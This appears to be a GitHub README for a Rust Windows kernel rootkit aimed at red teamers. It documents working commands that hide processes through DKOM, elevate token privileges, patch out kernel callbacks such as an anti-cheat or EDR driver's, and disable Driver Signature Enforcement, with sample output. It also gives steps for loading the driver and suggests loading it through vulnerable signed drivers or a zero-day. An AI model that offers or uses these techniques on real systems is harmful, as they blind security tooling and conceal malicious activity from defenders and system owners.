



# Windows Kernel Driver in Rust (Rusty Rootkit) for Red Teamers

## Features (Development in progress)

* Protect / unprotect process (Done)
* Elevate / remove token privileges (Done)
* Hide process (Done)
* Hide driver (Todo)
* Enumerate / remove kernel callbacks
  * PsSetCreateProcessNotifyRoutine (Done)
  * PsSetCreateThreadNotifyRoutine (Todo)
  * PsSetLoadImageNotifyRoutine (Todo)
  * CmRegisterCallbackEx (Todo)
  * ObRegisterCallbacks (Todo)
* DSE enable/disable (Done)
* Kernel mode manual mapper (Todo)

## Usage

```
PS C:\Users\memn0ps\Desktop> .\client.exe -h
client 0.1.0

USAGE:
    client.exe <SUBCOMMAND>

OPTIONS:
    -h, --help       Print help information
    -V, --version    Print version information

SUBCOMMANDS:
    callbacks
    dse
    help         Print this message or the help of the given subcommand(s)
    process
```

```
client.exe-process

USAGE:
    client.exe process --name <PROCESS> <--protect|--unprotect|--elevate|--hide>

OPTIONS:
    -e, --elevate           Elevate all token privileges
    -h, --help              Print help information
        --hide              Hide a process using Direct Kernel Object Manipulation (DKOM)
    -n, --name <PROCESS>    Target process name
    -p, --protect           Protect a process
    -u, --unprotect         Unprotect a process
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe callbacks -h
client.exe-callbacks

USAGE:
    client.exe callbacks <--enumerate|--patch <PATCH>>

OPTIONS:
    -e, --enumerate        Enumerate kernel callbacks
    -h, --help             Print help information
    -p, --patch <PATCH>    Patch kernel callbacks 0-63
```

## Example 1: Enumerate and patch kernel callbacks

```
PS C:\Users\memn0ps\Desktop> .\client.exe callbacks --enumerate
Total Kernel Callbacks: 11
[0] 0xffffbd8d3d2502df ("ntoskrnl.exe")
[1] 0xffffbd8d3d2fe81f ("cng.sys")
[2] 0xffffbd8d3db2bc8f ("WdFilter.sys")
[3] 0xffffbd8d3db2bf8f ("ksecdd.sys")
[4] 0xffffbd8d3db2c0df ("tcpip.sys")
[5] 0xffffbd8d3f10705f ("iorate.sys")
[6] 0xffffbd8d3f10765f ("CI.dll")
[7] 0xffffbd8d3f10789f ("dxgkrnl.sys")
[8] 0xffffbd8d3fa37cff ("vm3dmp.sys")
[9] 0xffffbd8d3f97104f ("peauth.sys")
[10] 0xffffbd8d43afb63f ("Eagle.sys")
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe callbacks --patch 10
[+] Callback patched successfully at index 10
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe callbacks --enumerate
Total Kernel Callbacks: 10
[0] 0xffffbd8d3d2502df ("ntoskrnl.exe")
[1] 0xffffbd8d3d2fe81f ("cng.sys")
[2] 0xffffbd8d3db2bc8f ("WdFilter.sys")
[3] 0xffffbd8d3db2bf8f ("ksecdd.sys")
[4] 0xffffbd8d3db2c0df ("tcpip.sys")
[5] 0xffffbd8d3f10705f ("iorate.sys")
[6] 0xffffbd8d3f10765f ("CI.dll")
[7] 0xffffbd8d3f10789f ("dxgkrnl.sys")
[8] 0xffffbd8d3fa37cff ("vm3dmp.sys")
[9] 0xffffbd8d3f97104f ("peauth.sys")
```

## Example 2: Protect a process and elevate token privileges



```
PS C:\Users\memn0ps\Desktop> .\client.exe process --name notepad.exe --protect
[+] Process protected successfully 8248

PS C:\Users\memn0ps\Desktop> .\client.exe process --name notepad.exe --elevate
[+] Tokens privileges elevated successfully 8248
```





## Example 3: Enable / Disable Driver Signature Enforcement (DSE)

```
PS C:\Users\memn0ps\Desktop> .\client.exe dse --enable
Bytes returned: 16
[+] Driver Signature Enforcement (DSE) enabled: 0x6
```
```
0: kd> db 0xfffff8005a6683b8 L1
fffff800`5a6683b8  06 
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe dse --disable
Bytes returned: 16
[+] Driver Signature Enforcement (DSE) disabled: 0xe
```

```
0: kd> db 0xfffff8005a6683b8 L1
fffff800`5a6683b8  0e
```

## Example 3: Hide Process


```
PS C:\Users\memn0ps\Desktop> .\client.exe process --name powershell.exe --hide
[+] Process is hidden successfully: 6376
```


## [Install Rust](https://www.rust-lang.org/tools/install)

To start using Rust, [download the installer](https://www.rust-lang.org/tools/install), then run the program and follow the onscreen instructions. You may need to install the [Visual Studio C++ Build tools](https://visualstudio.microsoft.com/visual-cpp-build-tools/) when prompted to do so.


## [Install](https://rust-lang.github.io/rustup/concepts/channels.html)

Install and change to Rust nightly

```
rustup toolchain install nightly
rustup default nightly
```

## [Install cargo-make](https://github.com/sagiegurari/cargo-make)

Install cargo-make

```
cargo install cargo-make
```

## [Install WDK/SDK](https://docs.microsoft.com/en-us/windows-hardware/drivers/download-the-wdk)

* Step 1: Install Visual Studio 2019
* Step 2: Install Windows 11 SDK (22000.1)
* Step 3: Install Windows 11 WDK

## Build Driver

Change directory to `.\driver\` and build driver

```
cargo make sign
```

## Build Client

Change directory to `.\client\` and build client

```
cargo build
```

## Enable `Test Mode` or `Test Signing` Mode 

```
bcdedit /set testsigning on
```

### [Optional] Debug via Windbg

```
bcdedit /debug on
bcdedit /dbgsettings net hostip:<IP> port:<PORT>
```

## Create / Start Service

You can use [Service Control Manager](https://docs.microsoft.com/en-us/windows/win32/services/service-control-manager) or [OSR Driver Loader](https://www.osronline.com/article.cfm%5Earticle=157.htm) to load your driver.

```
PS C:\Users\memn0ps> sc.exe create Eagle type= kernel binPath= C:\Windows\System32\Eagle.sys
[SC] CreateService SUCCESS
PS C:\Users\memn0ps> sc.exe query Eagle

SERVICE_NAME: Eagle
        TYPE               : 1  KERNEL_DRIVER
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
PS C:\Users\memn0ps> sc.exe start Eagle

SERVICE_NAME: Eagle
        TYPE               : 1  KERNEL_DRIVER
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 0
        FLAGS              :
PS C:\Users\memn0ps> sc.exe stop Eagle

SERVICE_NAME: Eagle
        TYPE               : 1  KERNEL_DRIVER
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Currently, this driver does not support manual mapping. However, an alternative way to load your driver is to manually map it by exploiting an existing CVE in a signed driver that is already loaded such as Intel or Capcom, although vulnerable drivers can be flagged easily by EDRs or ACs.

* https://github.com/TheCruZ/kdmapper (`iqvw64e.sys` Intel driver)
* https://github.com/not-wlan/drvmap (`capcom.sys` Capcom driver)
* https://github.com/zorftw/kdmapper-rs

Otherwise you can always get an [extended validation (EV) code signing certificate](https://docs.microsoft.com/en-us/windows-hardware/drivers/dashboard/get-a-code-signing-certificate) by Microsoft which goes through a "vetting" process or use a 0-day which is really up to you lol.

## Note

A better way to code Windows Kernel Drivers in Rust is to create bindings as shown in the references below. However, using someone else's bindings hides the functionality and this is why I made it the classic way unless, of course, you create your own bindings. I plan on refactoring the code in the future but for now, it will be a bit messy and incomplete.

I made this project for fun and because I really like Rust and Windows Internals. This is obviously not perfect or finished yet. if you would like to learn more about Windows Kernel Programming then feel free to check out the references below. The prefered safe and robust way of coding Windows Kernel Drivers in Rust is shown here:

* https://codentium.com/guides/windows-dev/
* https://github.com/StephanvanSchaik/windows-kernel-rs/ 

## References and Credits

* https://not-matthias.github.io/kernel-driver-with-rust/ (Big thanks to @not_matthias)
* https://github.com/not-matthias/kernel-driver-with-rust/
* https://courses.zeropointsecurity.co.uk/courses/offensive-driver-development (Big thanks to @_RastaMouse)
* https://leanpub.com/windowskernelprogramming Windows Kernel Programming Book (Big thanks to Pavel Yosifovich @zodiacon)
* https://www.amazon.com/Rootkits-Subverting-Windows-Greg-Hoglund/dp/0321294319 (Big thanks to Greg Hoglund and James Butler for Rootkits: Subverting the Windows Kernel Book)
* https://codentium.com/guides/windows-dev/
* https://github.com/StephanvanSchaik/windows-kernel-rs/
* https://github.com/rmccrystal/kernel-rs
* https://github.com/pravic/winapi-kmd-rs
* https://guidedhacking.com/
* https://www.unknowncheats.me/
* https://gamehacking.academy/
* https://secret.club/
* https://back.engineering/
* https://www.vergiliusproject.com/kernels/x64
* https://www.crowdstrike.com/blog/evolution-protected-processes-part-1-pass-hash-mitigations-windows-81/
* https://discord.com/invite/rust-lang-community (Big thanks to: WithinRafael, Nick12, Zuix, DuckThatSits, matt1992, kpreid and many others)
* https://twitter.com/the_secret_club/status/1386215138148196353 Discord (hugsy, themagicalgamer)
* https://www.rust-lang.org/
* https://doc.rust-lang.org/book/
* https://posts.specterops.io/mimidrv-in-depth-4d273d19e148
* https://br-sn.github.io/Removing-Kernel-Callbacks-Using-Signed-Drivers/
* https://www.mdsec.co.uk/2021/06/bypassing-image-load-kernel-callbacks/
* https://m0uk4.gitbook.io/notebooks/mouka/windowsinternal/find-kernel-module-address-todo
* https://github.com/XaFF-XaFF/Cronos-Rootkit/
* https://github.com/JKornev/hidden
* https://github.com/landhb/HideProcess
* https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/manipulating-activeprocesslinks-to-unlink-processes-in-userland
